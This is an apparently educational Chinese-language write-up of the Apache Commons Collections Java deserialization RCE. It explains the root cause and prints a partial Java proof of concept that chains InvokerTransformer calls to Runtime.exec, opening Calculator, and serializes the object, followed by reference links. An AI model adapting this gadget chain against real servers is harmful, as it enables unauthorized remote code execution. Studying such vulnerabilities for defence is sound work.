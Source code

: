 

####  5.JAVA Apache-CommonsCollections 序列化RCE漏洞 

##### 漏洞主要产生原因

​	1.运用了Apache Commons Collections中的InvokerTransformer类实现了Transformer(调用了反射机制) 

​	2.配合了TransformedMap+sun.reflect.annotation.AnnotationInvocationHandler中的readObject()方法(重写了readObject方法)

##### 主要逻辑

Clent构造恶意序列化payload，然后把恶意构造的payload发送到server中，server进行了反序列化，触发了重写的readObject()，readObject方法触发了内部的InvokerTransformer，然后触发了漏洞

##### 完整的POC

```java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
public class test3 {
    public static Object Reverse_Payload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "open /Applications/Calculator.app" }) };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value", "value");
        Map outmap = TransformedMap.decorate(innermap, null, transformerChain);
        //通过反射获得AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        //通过反射获得cls的构造函数
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        //这里需要设置Accessible为true，否则序列化失败
        ctor.setAccessible(true);
        //通过newInstance()方法实例化对象
        Object instance = ctor.newInstance(Retention.class, outmap);
        return instance;
    }

    public static void main(String[] args) throws Exception {
        GeneratePayload(Reverse_Payload(),"obj");
        payloadTest("obj");
    }
    public static void GeneratePayload(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
```

[sczyh30]: https://www.sczyh30.com/posts/Java/java-reflection-1/
[反序列化工具ysoserial分析]: https://wps2015.org/drops/drops/java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%B7%A5%E5%85%B7ysoserial%E5%88%86%E6%9E%90.html
[Seebug]: https://paper.seebug.org/584/
[腾讯安全应急响应中心]: https://security.tencent.com/index.php/blog/msg/97
[漏洞盒子]: https://www.vulbox.com/knowledge/detail/?id=11
[sczyh30]: https://www.sczyh30.com/posts/Java/java-reflection-1/